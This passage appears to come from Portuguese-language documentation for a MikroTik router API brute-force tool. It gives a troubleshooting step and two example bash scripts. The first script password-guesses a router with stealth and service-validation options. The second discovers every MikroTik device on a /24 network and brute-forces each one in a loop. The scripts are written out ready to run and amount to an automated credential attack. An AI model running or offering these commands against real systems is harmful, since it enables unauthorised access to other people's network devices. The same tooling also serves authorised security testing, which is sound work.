 ### 5. Problema: Sessão Corrompida

```bash
# Limpar sessões antigas
rm -rf sessions/*.json

# Criar nova sessão
python mikrotikapi-bf-v2.1.py -t 192.168.1.1 -u users.lst -p passwords.lst --force
```

## 📚 Scripts de Exemplo

### 1. Script de Teste Automatizado

```bash
#!/bin/bash
# test_automation.sh

TARGET="192.168.1.1"
USERLIST="wordlists/users.lst"
PASSLIST="wordlists/passwords.lst"

echo "Starting automated test..."
python mikrotikapi-bf-v2.1.py \
  -t $TARGET \
  -u $USERLIST \
  -p $PASSLIST \
  --validate ftp,ssh,telnet \
  --stealth \
  --fingerprint \
  --progress \
  --export-all \
  --threads 5 \
  -vv

echo "Test completed. Check results/ directory."
```

### 2. Script de Descoberta em Massa

```bash
#!/bin/bash
# mass_discovery.sh

NETWORK="192.168.1.0/24"
USERLIST="wordlists/users.lst"
PASSLIST="wordlists/passwords.lst"

echo "Starting mass discovery..."
python mikrotik-discovery.py --cidr $NETWORK --threads 20 --export json

echo "Starting mass brute force..."
for ip in $(cat results/discovered_mikrotik_devices.json | jq -r '.devices[].ip'); do
  echo "Testing $ip..."
  python mikrotikapi-bf-v2.1.py \
    -t $ip \
    -u $USERLIST \
    -p $PASSLIST \
    --validate ftp,ssh,telnet \
    --stealth \
    --export-all
done

echo "Mass testing completed."
```